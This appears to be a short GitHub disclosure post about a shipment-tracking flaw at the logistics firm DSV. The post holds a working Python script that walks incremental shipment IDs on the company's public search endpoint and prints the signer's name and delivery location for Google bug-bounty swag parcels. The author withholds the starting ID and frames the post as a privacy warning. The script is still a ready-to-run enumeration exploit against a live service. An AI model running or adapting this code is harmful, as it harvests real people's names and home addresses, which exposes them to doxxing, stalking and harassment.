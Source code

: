 ```yaml
---
title: Leaking the addresses of the top Google VRP Bug hunters (WAI)
---
```


When Google gave bug hunters swag they used a logistics company called DSV.
Unfortunately they allow for tracking shipments using an incremental number.

```python
import httpx

requests = 2000
start = <redacted>

def parseSearch(search, id):
    for item in search['data']:
        if item['mainTmsShipmentId'] == str(id):
            return item['randomIdentifier']

def printID(id):
    ShipmentId = str(id)
    Results = httpx.get('https://mydsv.com/app/search/publicShipmentList?q=' + ShipmentId).json()
    RandomId = parseSearch(Results, ShipmentId)
    if not RandomId:
        return
    Shipment = httpx.get('https://mydsv.com/app/search/shipment/' + RandomId).json()
    if 'Bughunter' in str(Shipment['description']):
        print(str(Shipment['signedBy']) + ',' + str(Shipment['delivery']['formattedLocation']).replace(',','') + ' ' + str(Shipment['delivery']['countryCode']))


for i in range(requests):
    printID(start+i)
    if i == 0:
        continue
    printID(start-i)
```
The following code gets their address and who signed for it (if any) by searching the range.

If you're affected by this you can contact the company for data deletion, I don't feel ignoring it is helping to protect people's privacy now or in future use.
I am however keeping the start value secret for privacy through obscurity, in case the attacker doesn't know how to count.
